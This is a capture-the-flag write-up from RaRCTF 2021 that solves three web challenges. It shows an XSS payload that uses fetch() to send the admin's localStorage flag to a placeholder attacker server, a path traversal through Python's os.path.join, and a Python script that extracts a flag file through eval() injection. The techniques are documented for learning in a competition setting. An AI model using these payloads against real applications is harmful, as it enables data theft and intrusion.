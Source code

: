 ```yaml
---
title: "RaRCTF2021: Some simpler web probz"
date: 2021-08-09T13:49:21-07:00
draft: false
comments: false
toc: true
images:
categories:
  - writeups
tags: 
  - writeups
  - xss
  - command-injection
  - web
---
```


## Fancy Button Generator // FBG

A simple xss challenge with the slightest of twists: instead of stealing admin cookies, you're stealing admin's localstorage values. This was possible because the admin, which was a puppetteer chrome browser, was operating in no-sandbox mode. 

Insert as your payload:
```
title: eh
link: javascript:fetch('your.server?fleg='%2B(window.localStorage.getItem("flag")));

```

And report to admin. Careful with the wait times...

NOTE: I first-blooded this challenge before certain measures were implemented. There were some issues with FBG throughout the competition that involved the organizers making amendments and introducing a pow to help with the stability of the infrastructure. I'm not aware of how the solution would have looked with the accompanying pow, unfortunately. 

flag: `rarctf{th0s3_f4ncy_butt0n5_w3r3_t00_cl1ck4bl3_f0r_u5_a4667cb69f}`

## Secure Uploader 

In the provided source, observe this piece of code: 

```py
@app.route('/file/<id>')
def file(id):
    conn = db()
    cur = conn.cursor()
    cur.execute("select path from files where id=?", (id,))
    res = cur.fetchone()
    if res is None:
        return "File not found", 404
    with open(os.path.join("uploads/", res[0]), "r") as f:
        return (os.path.join("uploads/", res[0]))
```

python's `os.path.join` is a unique thing: its purpose is to concat the provided parameters, appending one after the other with a `/` character in between. As an example, `os.path.join('foo','bar')` would produce `foo/bar`. However, specify an absolute filepath as a parameter, and everything before that string will be erased. So, `os.path.join('foo', '/bar')` would produce just `/bar`. We can use this knowledge to provide to the challenge a filename such as `//flag` which will resolve to retrieve the flag kept in the root directory of the docker container hosting the challenge. 

flag: `rarctf{4lw4y5_r34d_th3_d0c5_pr0p3rly!-71ed16}`

## MAAS 1 // Calculator
The first part of "Microservices as a Service" was a challenge that involved improper use of the python function `eval()`. For those unaware, `eval()` takes as a parameter a string representing code. For example, `eval('print("hello")')` would return `hello` in your console. Obviously, not a very _safe_ function to use.

In the provided source, we see some very interesting code in `arithmetic/app.py`:

```python
@app.route('/arithmetic', methods=["POST"])
def arithmetic():
    if request.form.get('add'):
        r = requests.get(f'http://arithmetic:3000/add?n1={request.form.get("n1")}&n2={request.form.get("n2")}')
    elif request.form.get('sub'):
        r = requests.get(f'http://arithmetic:3000/sub?n1={request.form.get("n1")}&n2={request.form.get("n2")}')
    elif request.form.get('div'):
        r = requests.get(f'http://arithmetic:3000/div?n1={request.form.get("n1")}&n2={request.form.get("n2")}')
    elif request.form.get('mul'):
        r = requests.get(f'http://arithmetic:3000/mul?n1={request.form.get("n1")}&n2={request.form.get("n2")}')
    result = r.json()
    print(result)
    res = result.get('result')
    if not res:
        return str(result.get('error'))
    try:
        res_type = type(eval(res))
        if res_type is int or res_type is float:
            return str(res)
        else:
            return "Result is not a number"
    except NameError:
        return "Result is invalid"
```

This would run when you perform any arithmetic action using the calculator in the website. When using the calculator, if you try to do an addition formula like "1+1", the returned result isn't 2, but "11". Why is that?

The program passes your code into `eval()` (in the `try` statement), but the result of that `eval()` isn't returned anywhere. If the eval'd result was an integer, then the _string_ that was passed as a parameter to `eval()` would be returned, hence why "11" is returned as the result of "1+1". However, `eval()` is called nonetheless, and we can use this to our advantage.

First and foremost, if the result of the eval was a number (int or float), then the string is returned. Else, "Result is not a number" or "Result is invalid" is returned. We could use this as a boolean condition with the following string: 

```
eval("1 if (open('../flag.txt','r').read(-1).startswith('rarctf{')) else 'false'")
``` 

We can instead put this as our "arithmetic" equation. Since the POST request made to the endpoint requires 2 params to be operated on, "n1" and "n2", split this statement into 2 arbitrary halves and put 1 half into the "n1" param, and the other into the "n2" param.

What this does is it calls `eval()` once more, but in this 2nd call we have more freedom to stipulate what can be evaluated. The param to the inner `eval()` is just an if statement that returns the integer `1` if `(open('../flag.txt','r').read(-1).startswith('rarctf{'))` returns the boolean value true, or returns the string `'false'` if the statement returns the boolean value false. 

Therefore, if the contents of `flag.txt` start with the prefix "rarctf{", then the `eval()` functions will return 1, and the maas program would return the whole string as a result. If it doesn't start with that prefix, then the `eval()` functions would return the string 'false' and the if statement that checks the `res_type` would not return our string. From here, we can just continue to add characters to the prefix to brute-force the value of the flag that way: if we get back our string, then the character we guessed is in the flag. If we get back either "Result is not a number" or "Result is invalid" (or just if the response text has the keyword "Result"), then the character we guessed is not in the flag.

```py
import requests

url = "https://maas.rars.win/calculator"

alphabet = 'abcdefghijklmnopqrstuvwxyz1234567890_-{}'

prefix = 'rarctf{'

#I just chose 40 arbitrarily. If the flag was longer, I would have increased the range.
for index in range(0, 40):
    for c in alphabet:
        # It uses the python builtin function open to retrieve the contents of /flag.txt, then reads it
        # if the contents of said flag.txt contain the prefix (and we add the current character after the prefix), it returns true
        req = "eval(\"1 if (open('../flag.txt','r').read(-1).startswith('" + prefix + c + "')) else 'false'\""
        # I split the string between the n1 and n2 params arbitrarily. It doesnt matter how you split them.
        data = {"mode": "arithmetic", "n1": req, "add": "+", "n2": ")"}
        resp = requests.post(url, data)
        # If we dont find the word "Result" in the response to our request above, then that means the character we guessed is in the flag!
        if (resp.text.find("Result") == -1) and (resp.status_code != 500):
            # Add the correctly guessed character to the string amd move on to the next char
            prefix += c
            print(prefix)
            continue
```

flag: `rarctf{0v3rk1ll_4s_4_s3rv1c3_3fca0faa}`

[Part 2!](/posts/2021/08/rarctf-2021-maas-2-unintended-solutions/) 

**Vie**